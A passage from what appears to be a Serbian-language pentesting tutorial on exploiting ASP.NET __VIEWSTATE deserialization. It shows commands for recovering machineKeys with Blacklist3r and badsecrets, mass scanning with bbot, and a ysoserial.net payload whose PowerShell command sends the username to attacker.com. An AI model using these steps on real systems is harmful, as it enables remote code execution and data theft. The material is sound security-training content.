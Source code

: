 Kako je parametar ovaj put zaštićen MAC-om, da biste uspešno izvršili napad, prvo moramo pronaći korišćeni ključ.

Možete pokušati koristiti [**Blacklist3r(AspDotNetWrapper.exe)**](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) da biste pronašli korišćeni ključ.

```
AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata /wEPDwUKLTkyMTY0MDUxMg9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkbdrqZ4p5EfFa9GPqKfSQRGANwLs= --decrypt --purpose=viewstate --modifier=6811C9FF --macdecode --TargetPagePath "/Savings-and-Investments/Application/ContactDetails.aspx" -f out.txt --IISDirPath="/"

--encrypteddata : __VIEWSTATE parameter value of the target application
--modifier : __VIWESTATEGENERATOR parameter value
```

[**Badsecrets**](https://github.com/blacklanternsecurity/badsecrets) je još jedan alat koji može identifikovati poznate machineKeys. Napisan je u Python-u, tako da za razliku od Blacklist3r-a, nema zavisnosti od Windows-a. Za .NET viewstate-ove, postoji "python blacklist3r" alat, koji je najbrži način za korišćenje.

Može se ili obezbediti direktno sa viewstate-om i generatorom:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --viewstate /wEPDwUJODExMDE5NzY5ZGQMKS6jehX5HkJgXxrPh09vumNTKQ== --generator EDD8C9AE
```

![https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png](https://user-images.githubusercontent.com/24899338/227034640-662b6aad-f8b9-49e4-9a6b-62a5f6ae2d60.png)

Ili, može se direktno povezati sa ciljanim URL-om i pokušati izdvojiti viewstate iz HTML-a:

```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```

![https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png](https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png)

Za pretragu ranjivih viewstate-ova u velikom obimu, u kombinaciji sa enumeracijom poddomena, može se koristiti `badsecrets` [**BBOT**](exploiting-\_\_viewstate-parameter.md) modul:

```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```

![https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png](https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png)

Ako imate sreće i ključ je pronađen, možete nastaviti sa napadom koristeći [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:**

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```
